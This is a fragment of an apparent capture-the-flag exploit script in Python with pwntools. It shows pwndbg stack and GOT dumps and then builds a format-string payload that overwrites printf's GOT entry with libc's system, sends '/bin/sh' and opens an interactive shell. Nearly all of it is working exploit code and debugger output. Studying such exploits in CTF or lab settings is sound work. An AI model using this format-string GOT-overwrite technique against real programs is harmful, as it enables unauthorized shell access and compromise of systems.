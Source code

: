 ```python
   f 3  804a012 _GLOBAL_OFFSET_TABLE_+18
   f 4 f7eb03dc __exit_funcs
   f 5 ffa07810
   f 6 f7d15276 __libc_start_main+246
pwndbg> stack 25
00:0000│ esp  0xffa077c0 —▸ 0x804a060 (buf) ◂— 0x31313225 ('%211')
01:0004│      0xffa077c4 —▸ 0x8048640 ◂— jno    0x80486b7 /* 'quit' */
02:0008│      0xffa077c8 ◂— 0x4
03:000c│      0xffa077cc —▸ 0x804857c (play+51) ◂— add    esp, 0x10
04:0010│      0xffa077d0 —▸ 0x8048645 ◂— cmp    eax, 0x3d3d3d3d
05:0014│      0xffa077d4 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
06:0018│ ebp  0xffa077d8 —▸ 0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
07:001c│      0xffa077dc —▸ 0x804a010 (_GLOBAL_OFFSET_TABLE_+16) —▸ 0xf7d37b30 (system) ◂— sub    esp, 0xc
08:0020│      0xffa077e0 —▸ 0xf7eb0d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
09:0024│      0xffa077e4 ◂— 0x0
0a:0028│      0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
0b:002c│      0xffa077ec —▸ 0x804a012 (_GLOBAL_OFFSET_TABLE_+18) ◂— 0xc870f7d3
0c:0030│      0xffa077f0 —▸ 0xf7eb03dc (__exit_funcs) —▸ 0xf7eb11e0 (initial) ◂— 0x0
0d:0034│      0xffa077f4 —▸ 0xffa07810 ◂— 0x1
0e:0038│      0xffa077f8 ◂— 0x0
0f:003c│      0xffa077fc —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
10:0040│      0xffa07800 ◂— 0x1
11:0044│      0xffa07804 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
12:0048│      0xffa07808 ◂— 0x0
13:004c│      0xffa0780c —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
14:0050│      0xffa07810 ◂— 0x1
15:0054│      0xffa07814 —▸ 0xffa078a4 —▸ 0xffa077dc —▸ 0x804a010 (_GLOBAL_OFFSET_TABLE_+16) ◂— 0xf7d37b30
16:0058│      0xffa07818 —▸ 0xffa078ac —▸ 0xffa077ec —▸ 0x804a012 (_GLOBAL_OFFSET_TABLE_+18) ◂— 0xc870f7d3
17:005c│      0xffa0781c ◂— 0x0
... ↓
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 6

[0x804a00c] read@GLIBC_2.0 -> 0xf7dd3c50 (read) ◂— cmp    dword ptr gs:[0xc], 0
[0x804a010] printf@GLIBC_2.0 -> 0xf7d37b30 (system) ◂— sub    esp, 0xc
[0x804a014] puts@GLIBC_2.0 -> 0xf7d5c870 (puts) ◂— push   ebp
[0x804a018] __libc_start_main@GLIBC_2.0 -> 0xf7d15180 (__libc_start_main) ◂— push   ebp
[0x804a01c] setvbuf@GLIBC_2.0 -> 0xf7d5cff0 (setvbuf) ◂— push   ebp
[0x804a020] strncmp@GLIBC_2.0 -> 0xf7e3a5d0 (__strncmp_sse4_2) ◂— push   ebp
'''
#  gdb.attach(io, "b *do_fmt+64\nc")
payload = "%{}c%{}$hhn".format(libc.sym['system'] >> 16 & 0xff, 0xb)
payload += "%{}c%{}$hn".format((libc.sym['system'] & 0xffff) - (libc.sym['system'] >> 16 & 0xff), 0x7)
payload += '44444444\0'
info(payload)
io.sendafter("33333333", payload)
pause()

io.sendafter("44444444", "/bin/sh\0")

io.interactive()
io.close()
```
